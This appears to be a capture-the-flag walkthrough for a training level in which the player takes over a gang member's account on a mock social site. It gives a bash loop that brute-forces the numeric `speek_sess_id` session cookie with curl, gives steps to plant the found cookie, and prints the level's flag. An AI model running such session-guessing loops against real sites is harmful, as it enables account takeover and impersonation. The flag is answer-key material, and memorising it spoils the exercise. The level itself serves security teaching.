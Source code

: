 # 🎰 Account Roulette - L12 C03

Agent 707, remember the social media website from the previous level where Bulldog gang member Darren Greggs posted that cryptic message? If we could log in as Darren we could post messages as him and confuse other gang members. Unfortunately we don't have his login details, but we're sure you can find another way to log in as him using a possible vulnerability we think exists.

We have logged in as a random test user that we created and have gone to an old message Darren posted. See if you can use that access to log in to other accounts, then check the response to see who you are logged in as, aiming to find access Darren's account (his username is thedazman).

**Tip:** Understand what identifies the users logged in state to start.

```txt
💡 Hint: Can you find an ID for the logged-in user?
   You’ll need to cycle through all the possible values and check which account you’re logged in as,
   to try to find Darren’s account (thedazman). It’s possible to automate this with CURL or Python.
```

## Step by Step

- To find which account belongs to thedazman, use this bash script: `for i in {0..100}; do echo $i; curl -s -b "speek_sess_id=$i" https://wespeektogether.com/thedazman/status/74635478354 | grep "as thedazman"; done`
- Once the grep command was successful press ctr + c to stop the script, `49` should be the number showing up right before the grep result
- Use inspect element to go to the “Application” tab to edit cookies.
- Alter cookie called `speek_sess_id` to hold the value `49`
- Reload the page and the flag will show

`flag: l5r6P2qys2w6M3bEvk8p`
